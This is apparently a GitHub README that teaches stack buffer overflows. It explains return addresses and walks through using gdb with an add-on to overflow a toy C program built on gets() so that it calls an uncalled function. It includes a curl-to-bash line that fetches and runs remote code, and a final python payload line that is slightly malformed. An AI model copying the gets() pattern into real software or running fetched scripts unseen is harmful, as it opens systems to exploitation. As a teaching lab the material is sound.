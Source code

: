 # Executing malicious code with buffer overflows

![Call Stack](https://upload.wikimedia.org/wikipedia/commons/thumb/d/d3/Call_stack_layout.svg/342px-Call_stack_layout.svg.png)

Whenever you call a function, you add a "stack frame" onto the stack memory
which contains information about the function's local variables, its parameters,
and more importantly its return address.

Programs have something called an "instruction pointer" which points to the area
in memory the current instruction being executed is located.

Whenever a function returns, the stack frame is popped off the call stack and
the instruction pointer is set to the return address.

If we were somehow able to somehow overwrite this return address, it could be
possible for us to manipulate the program to execute a function that wasn't
meant to be executed, or even execute code that we ourselves inject into the
program's memory.

# Using gdb to perform a simple buffer overflow attack

We will be trying to attack a very simple c program (source code can be found in simple/main.c)

```c
#include <stdio.h>

void hello() {
    printf("Hello\n");
}

int main() {
    char buf[20];
    gets(buf);
}
```
In this attack, we will make the function print hello even though the hello() function is not called in main().

1. Install gdb add-on  
  ``` bash -c "$(curl -fsSL http://gef.blah.cat/sh)"```
2. Start gdb  
   ``` $gdb```  
3. Try to run the executable in gdb    
   ```> file <exec> ```   
   so that the executable is added to gdb.  
   ```> run <exec>```   
   runs the executable in gdb.
4. Try to find the length of the buffer so we know where we should start putting useful information 
   - ```> pattern create -n 8 <length>``` Generate a long string. (-n 8 because 64-bit)
   - Run the program and copy the long string generated by pattern create into the input field.
The output would look something like this:   
<img width="1007" alt="170105430-24c638c2-20a2-4a37-a939-e419e12d2320" src="https://user-images.githubusercontent.com/64151468/170338811-4d7678eb-e010-49b7-aef4-1ebbc41b0ff6.png">
    - The boxed portion ($rbp) would be able to tell us how much did we overwrite the buffer. We can also use ```x $rbp ``` to look up this number.
5. Look up the size of the buffer  
   ```
   > pattern offset <rbp_value>
   ```
6. Find the address of hello() function so we can put it at the end of the buffer.  
    ``` 
    info functions 
    
    ```
    <img width="410" alt="Screen Shot 2022-05-24 at 3 24 21 PM" src="https://user-images.githubusercontent.com/64151468/170339491-36dc6544-b5e4-42b0-b712-420315696880.png">

7. Exit out of gdb with Ctrl+D. Use python to input what we want into the program in bash

```
$ python -c "print(A * <offset> + 8 + <address of function in correct endian>)" | ./<exec>"

```
